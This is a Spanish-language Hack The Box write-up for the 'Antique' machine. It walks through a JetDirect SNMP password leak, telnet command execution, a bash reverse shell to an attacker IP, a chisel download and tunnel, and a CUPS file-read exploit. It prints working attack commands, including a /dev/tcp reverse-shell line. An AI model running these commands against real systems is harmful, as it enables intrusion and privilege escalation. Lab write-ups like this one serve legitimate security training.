





+++
author = "Andrés Del Cerro"
title = "Hack The Box: Antique Writeup | Easy"
date = "2024-08-05"
description = ""
tags = [
    "HackTheBox",
    "Antique",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Local File Inclusion",
    "Exploit",
    "Linux",
    "SMB Enumeration",
    "Information Leakage",
    "CVE-2002-1048",
    "Scripting",
    "Python Scripting",
    "Reverse Port Forwarding",
    "CVE-2012-5519"
]

+++

# Hack The Box: Antique Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Antique"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.250.207 --ulimit 5000 -g
10.129.250.207 -> [23]
```

```shell
$ nmap -p23 10.129.250.207 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 23:18 CEST
Nmap scan report for 10.129.250.207
Host is up (0.038s latency).

PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

# UDP Enumeration

```shell
$ sudo nmap --top-ports 1500 --min-rate 5000 -sU -n -Pn 10.129.250.207 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 23:19 CEST
Nmap scan report for 10.129.250.207
Host is up (0.037s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
88/udp    closed kerberos-sec
161/udp   open   snmp
19933/udp closed unknown
25212/udp closed unknown
27673/udp closed unknown
30661/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.82 seconds
```

La verdad que me sorprendió solo ver el telnet abierto por TCP..

# SNMP Enumeration
Como tampoco podía hacer mucho, voy a enumerar con `snmpbulkwalk` a ver que se está compartiendo por SNMP.

```shell
$ snmpbulkwalk -c public -v2c 10.129.250.207
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
```

Así que decidí conectarme por telnet, a ver si conseguía algo mas de información.

```shell
$ telnet 10.129.250.207
Trying 10.129.250.207...
Connected to 10.129.250.207.
Escape character is '^]'.

HP JetDirect

Password: admin
Invalid password
Connection closed by foreign host.
```

HP JetDirect, algo es algo...


Buscando con `searchsploit` vemos lo siguiente...

```
A problem with JetDirect printers could make it possible for a remote user to gain administrative access to the printer.

It has been reported that HP JetDirect printers leak the web JetAdmin device password under some circumstances. By sending an SNMP GET request to a vulnerable printer, the printer will return the hex-encoded device password to the requester. This could allow a remote user to access and change configuration of the printer.

C:\>snmputil get example.printer public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

Probando con el OID que nos ha compartido..
```shell
$ snmpwalk -c public -v2c 10.129.250.207 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
¡Nos responde algo!

# Foothold
Como dato, el CVE es [CVE-2002-1048](https://vuldb.com/?source_cve.18962 "Cve")
Del año de la polka...

Con un pequeño script en python
```python
#!/usr/bin/python3
BITS = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"

def decode():
    bits = BITS.replace(" ", "")
    result_string = ''.join([chr(int(bits[i:i+2], 16)) for i in range(0, len(bits), 2)])
    print(result_string)
    pass
    
if __name__ == "__main__":
    decode(
```

```shell
$ python3 decode.py 
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGWaA"1&1A5
```

Me dio la sensación de que se habían colado caracteres, por lo cual me quedé solo con la primera fila de hexadecimal
`50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32`

Y ahora tiene mejor pinta.
```shell
$ python3 decode.py 
P@ssw0rd@123!!12
```

Probando combinaciones, vi que faltaba un tres en la contraseña.
`P@ssw0rd@123!!123`


Enumerando lo que podía hacer, nos encontramos esta línea
`exec: execute system commands (exec id)`

```shell
exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

Ahora solo queda mandarnos una reverse shell.

Nos ponemos en escucha con `netcat` por el puerto 443.
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Nos mandamos la revshell...
```
> exec bash -c "bash -i >& /dev/tcp/10.10.14.18/443 0>&1"
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.250.207] 56774
bash: cannot set terminal process group (1146): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ whoami
whoami
lp
lp@antique:~$ 
```

Y ya podríamos leer la flag de usuario
```shell
lp@antique:~$ cat user.txt
cat user.txt
1639908b7ad1cd...
```

# Privilege Escalation
Después de enumerar un rato el sistema.

```shell
lp@antique:~$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1163/python3        
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -         
```

Vemos un puerto interno 631.

Vamos con `chisel` a hacer Reverse Port Forwarding

Nos lo compartimos creando un servidor web temporal con `python3`
```shell
$ python3 -m http.server 8081
```

Y nos lo descargamos en la máquina víctima con `wget`
```shell
lp@antique:/tmp$ wget http://10.10.14.18:8081/chisel
```

En la máquina víctima nos ponemos en escucha por el puerto 1234.
```shell
$ sudo ./chisel server --reverse -p 1234
```
**Importante ejecutar con `sudo` ya que se va a usar un puerto inferior a 1024.**

Ahora en la máquina víctima..
```shell
./chisel client 10.10.14.18:1234 R:631:127.0.0.1:631
```

Y ahora nuestro puerto local 631 es el puerto 631 de la máquina víctima.
```shell
$ sudo ./chisel server --reverse -p 1234
2024/08/05 23:47:39 server: Reverse tunnelling enabled
2024/08/05 23:47:39 server: Fingerprint NlttnPRHpMQoAwbRWuNr/L0LOxmCqUuczmy3ifi7RMU=
2024/08/05 23:47:39 server: Listening on http://0.0.0.0:1234
2024/08/05 23:47:40 server: session#1: tun: proxy#R:631=>631: Listening
```

Haciendo una simple enumeración con `nmap` vemos que es un servicio CUPS 1.6.
```shell
$ nmap -p631 -sCV 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 23:49 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00019s latency).

PORT    STATE SERVICE VERSION
631/tcp open  ipp     CUPS 1.6
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.6
|_http-title: Home - CUPS 1.6.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
```

Así se ve.


Y vemos una vulnerabilidad de tipo RCE que puede que sea compatible con esta versión.


Necesito python2 para este exploit y no lo tengo instalado en mi máquina, así que vamos a buscar una forma alternativa..
```shell
$ python3 rce.py 
  File "/home/pointedsec/Desktop/antique/content/rce.py", line 16
    print '''
    ^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```

Parece ser que podemos ejecutar directamente este [PoC](https://github.com/p1ckzi/CVE-2012-5519) desde la máquina víctima si estamos en el grupo `lpadmin`

Así que vamos a compartirnoslo.

Y si le damos permiso de ejecución y lo ejecutamos.
```shell
lp@antique:/tmp$ ./cups-root-file-read.sh
```

Y podemos leer archivos privilegiados de la máquina.


¡Y ya estaría!


Happy Hacking! 🚀